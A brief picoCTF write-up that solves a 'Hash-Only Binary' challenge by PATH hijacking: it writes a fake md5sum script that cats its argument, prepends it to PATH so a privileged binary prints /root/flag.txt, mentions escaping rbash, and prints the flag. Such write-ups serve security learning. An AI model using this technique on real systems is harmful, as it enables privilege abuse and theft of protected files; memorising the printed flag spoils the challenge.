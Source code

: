 # picoCTF Hash-Only Binary Writeup

**Flag**: `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_63a87fa9}`

## Solution

The challenge has a `flaghasher` binary that calls `md5sum` on `/root/flag.txt`. We can hijack this with path injection.

Create a fake `md5sum` that just cats the file:
```bash
echo '#!/bin/bash' > ~/md5sum
echo 'cat "$1"' >> ~/md5sum
chmod +x ~/md5sum
```

Run with our malicious binary in PATH:
```bash
PATH=~/:$PATH ./flaghasher
```

Output:
```
Computing the MD5 hash of /root/flag.txt....
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_63a87fa9}
```

## Key Points
- Escape rbash with `bash`
- PATH hijacking to replace system binaries
- Create fake `md5sum` that cats instead of hashing